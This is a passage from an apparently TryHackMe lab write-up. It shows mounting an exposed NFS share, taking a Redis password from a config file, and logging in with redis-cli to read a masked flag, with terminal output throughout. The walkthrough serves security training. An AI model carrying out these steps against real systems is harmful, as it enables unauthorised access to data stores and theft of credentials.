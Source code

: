 We found the share `/opt/conf`, let's mount it using the following commands.

```bash
mkdir /tmp/share
sudo mount -t nfs IP:/opt/conf /tmp/share -nolock
```

```terminal
$ mkdir /tmp/share                                                                                                                                   130 ⨯
                                                                                                                                                             
$ sudo mount -t nfs 10.10.68.193:/opt/conf /tmp/share -nolock
                                                                                                                                                             
$ ls -al /tmp/share
total 36
drwxr-xr-x  9 root root 4096 Feb  2  2021 .
drwxrwxrwt 16 root root 4096 Oct 16 03:17 ..
drwxr-xr-x  2 root root 4096 Feb  2  2021 hp
drwxr-xr-x  2 root root 4096 Feb  2  2021 init
drwxr-xr-x  2 root root 4096 Feb  2  2021 opt
drwxr-xr-x  2 root root 4096 Feb  2  2021 profile.d
drwxr-xr-x  2 root root 4096 Feb  2  2021 redis
drwxr-xr-x  2 root root 4096 Feb  2  2021 vim
drwxr-xr-x  2 root root 4096 Feb  2  2021 wildmidi
                                             
```

I changed the directory to /tmp/share and listed the content of every directory with `ls -al ./*`. I found a config file in redis directory.

![](1.png)

The file contains a password for redis.

## Redis

The scan didn't show a redis server earlier, maybe if we scanned all ports we would have found it.
Any way, let's connect to redis using `redis-cli -h 10.10.10.10`

```terminal
$ redis-cli -h 10.10.68.193
10.10.68.193:6379> AUTH B65Hx562F@REDACTED
OK
(1.05s)
10.10.68.193:6379> INFO keyspace
# Keyspace
db0:keys=5,expires=0,avg_ttl=0
10.10.68.193:6379> SELECT 0
OK
10.10.68.193:6379> KEYS *
1) "internal flag"
2) "int"
3) "authlist"
4) "marketlist"
5) "tmp"
10.10.68.193:6379> get "internal flag"
"THM{ff8e518addbbxxxxxxxxxa724236a8221}"
10.10.68.193:6379> get "authlist"
(error) WRONGTYPE Operation against a key holding the wrong kind of value
```
